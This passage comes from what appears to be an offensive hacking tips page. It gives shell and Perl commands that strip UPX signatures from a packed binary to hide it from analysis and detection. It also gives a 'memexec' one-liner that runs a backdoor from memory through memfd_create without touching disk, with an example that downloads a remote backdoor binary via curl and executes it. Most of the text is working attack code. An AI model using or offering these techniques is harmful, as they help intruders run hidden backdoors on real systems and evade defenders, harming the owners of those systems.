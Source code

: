 Optionally cleanse signatures and traces of UPX:
```shell
cat "${BIN}" \
| perl -e 'local($/);$_=<>;s/(.*)(\$Info:[^\0]*)(.*)/print "$1";print "\0"x length($2); print "$3"/es;' \
| perl -e 'local($/);$_=<>;s/(.*)(\$Id:[^\0]*)(.*)/print "$1";print "\0"x length($2); print "$3"/es;' >"${BIN}.tmpupx"
mv "${BIN}.tmpupx" "${BIN}"
grep -Eqm1 "PROT_EXEC\|PROT_WRITE" "${BIN}" \
&& cat "${BIN}" | perl -e 'local($/);$_=<>;s/(.*)(PROT_EXEC\|PROT_WRI[^\0]*)(.*)/print "$1";print "\0"x length($2); print "$3"/es;' >"${BIN}.tmpupx" \
&& mv "${BIN}.tmpupx" "${BIN}"
perl -i -0777 -pe 's/UPX!/\0\0\0\0/sg' "${BIN}"
```

Verify that binary can not be unpacked:
```shell
upx -d "${BIN}"  # Should fail with 'not packed by UPX'
```

Optionally encrypt it with [Ezuri](https://github.com/guitmz/ezuri) thereafter.

<a id="memexec"></a>
**8.viii. Deploying a backdoor without touching the file-system**

How to start a backdoor without writing to the file-system or when all writeable locations are mounted with the evil `noexec`-flag.

A Perl one-liner to load a binary into memory and execute it (without touching any disk or /dev/shm or /tmp).
```sh
memexec() {
    local stropen strread
    local strargv0='"foo", '
    [ -t 0 ] && {
        stropen="open(\$i, '<', '$1') or die 'open: \$!';"
        strread='$i'
        unset strargv0
    }
    # Check Syscall-NR: perl -e 'require "sys/syscall.ph"; printf &SYS_memfd_create;'
    perl -e '$f=syscall(319, $n="", 1);
if(-1==$f){ $f=syscall(279, $n="", 1); if(-1==$f){ die "memfd_create: $!";}}
'"${stropen}"'
open($o, ">&=".$f) or die "open: $!";
while(<'"${strread:-STDIN}"'>){print $o $_;}
exec {"/proc/$$/fd/$f"} '"${strargv0}"'@ARGV or die "exec: $!";' -- "$@"
}
# Example usage:
# memexec /usr/bin/id -u
# cat /usr/bin/id | memexec -u
# curl -SsfL https://thc.org/my-backdoor-binary | memexec
```

The shortest possible variant is (example):
```shell
memexec(){ perl '-efor(319,279){($f=syscall$_,$",1)>0&&last};open($o,">&=".$f);print$o(<STDIN>);exec{"/proc/$$/fd/$f"}X,@ARGV' -- "$@";}
# Example: cat /usr/bin/id | memexec -u
```
(Thank you [tmp.Out](https://tmpout.sh/) for some educated discussions and [previous work](https://captain-woof.medium.com/how-to-execute-an-elf-in-memory-living-off-the-land-c7e67dbc3100) by others)
